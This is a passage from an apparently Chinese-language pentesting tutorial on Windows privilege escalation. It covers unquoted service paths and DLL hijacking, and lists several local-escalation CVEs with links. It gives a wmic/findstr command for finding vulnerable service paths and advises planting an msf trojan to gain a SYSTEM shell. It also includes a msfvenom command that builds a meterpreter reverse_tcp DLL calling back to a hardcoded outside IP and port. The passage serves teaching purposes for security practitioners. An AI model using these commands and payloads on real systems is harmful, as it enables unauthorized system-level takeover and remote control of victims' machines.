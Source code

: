   
**假如存在漏洞路径，我们可以将msf木马放到上面的路径下，然后重启机器，此时，反弹回来的shell，则是一个system的shell**  
  
使用以下命令查看系统中错误配置的路径  

```
wmic service get name,displayname,pathname,startmode |findstr /i &#34;Auto&#34; |findstr /i /v &#34;C:\Windows\\&#34; |findstr /i /v &#34;&#34;&#34;


1、wmic service get name,displayname,pathname,startmode：这个命令行使用Windows Management Instrumentation Command-Line (WMIC)来获取服务的名称、显示名称、路径名称和启动模式。
2、|findstr /i &#34;Auto&#34;：这个管道命令使用findstr工具来过滤出那些启动模式为“自动”的服务。/i标志表示忽略大小写。
3、|findstr /i /v &#34;C:\Windows\\&#34;：这个管道命令进一步过滤出那些路径名称不包含“C:\Windows\”的服务。/v标志表示排除包含指定字符串的行。

```

#### 9、DLL劫持  
##### 原理：  
  
Windows程序启动的时候需要DLL。如果这些DLL 不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常，Windows应用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索：  
  
1、应用程序加载的目录  
  
2、C:\Windows\System32  
  
3、C:\Windows\System  
  
4、C:\Windows  
  
5、当前工作目录Current Working Directory，CWD  
  
6、在PATH环境变量的目录（先系统后用户）  
  
过程：信息收集-进程调试-制作dll并上传-替换dll-启动应用后成功  
  
msfvenom -p windows/meterpreter/reverse_tcp lhost=101.37.169.46 lport=6677 -f dll >/opt/test.dll  
  
**常用系统漏洞**  
CVE  
  
#Windows10  
  
CVE-2020-0796 https://www.cnblogs.com/-chenxs/p/12618678.html  
  
#Windows7/2008  
  
CVE-2018-8120 https://www.cnblogs.com/-mo-/p/11404598.html  
  
#Windows7/8、2008/2012/2016  
  
CVE-2017-0213 https://www.cnblogs.com/-mo-/p/11446144.html  
  
#SQL Server、IIS通杀 (针对本地用户的，不能用于域用户)  
  
MS16-075(RottenPotato) https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075  
## 数据库提权  
  
在利用系统溢出漏洞无果的情况下，可以采用数据库进行提权。  
  